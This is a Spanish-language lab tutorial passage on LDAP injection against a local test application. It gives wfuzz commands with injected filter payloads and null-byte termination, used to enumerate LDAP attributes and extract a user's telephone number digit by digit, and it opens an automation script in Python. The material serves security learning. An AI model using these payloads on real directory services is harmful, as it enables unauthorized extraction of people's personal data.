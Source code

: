 Utilizaremos el siguiente **diccionario de SecLists**

![[LDAPI 12.png]]

Luego hacemos uso del **WFUZZ**, donde colocamos el diccionario y con ``-d`` especificamos que es data que estamos tramitando por POST, por lo tanto ahí debemos pegar el campo que está al final de nuestra petición en el Burpsuite y modificarlo para incluir el lugar donde se iterará con WFUZZ y luego comentar el resto de la Query.

![[LDAPI 13.png]]

- ``wfuzz -c -w /usr/share/SecLists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888``

Esto nos dará muchos resultados con *código de estado 200 OK*, pero veremos que algunos nos dan el que nos interesa el cual es el *código de estado 301*, entonces lo que hacemos es agregarle al wfuzz el parámetro ``-hc`` para **esconder** los resultados con código de estado 200 OK.

![[LDAPI 14.png]]

Ahora que sabemos todos los atributos existentes, si por ejemplo **quisiéramos enumerar el atributo del número de teléfono** del usuario "c4sp", deberíamos reemplazar el diccionario anterior por uno de tipo ``range,0-9`` para que itere del numero cero al nueve, en donde nosotros coloquemos FUZZ.

- ``wfuzz -c --hc=200 -z range,0-9 -d 'user_id=c4sp)(telephoneNumber=FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888``

De esta forma estará iterando del *0-9* como **primer numero** y luego se concatena un ``*`` para que rellene el resto con el número real, por lo tanto cuando el *WFUZZ* detecte el *código de estado 301 Redirect*, nos dirá que número fue el que **coincidió** para esa respuesta, luego deberíamos ir colocando numero por numero hasta conseguir todo el teléfono completo.

![[LDAPI 15.png]]

![[LDAPI 16.png]]

![[LDAPI 17.png]]

---

Desde **Burpsuite** podríamos hacer lo mismo para enumerar el atributo de "*mail*" de la siguiente manera.

![[LDAPI 18.png]]

## Creando script en Python3 para automatizar inyección

```python
#!/usr/bin/python3

import requests
import time
import sys
import signal
import string

from pwn import *

# CTRL+C -----------------------------------
def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
# CTRL+C -----------------------------------

```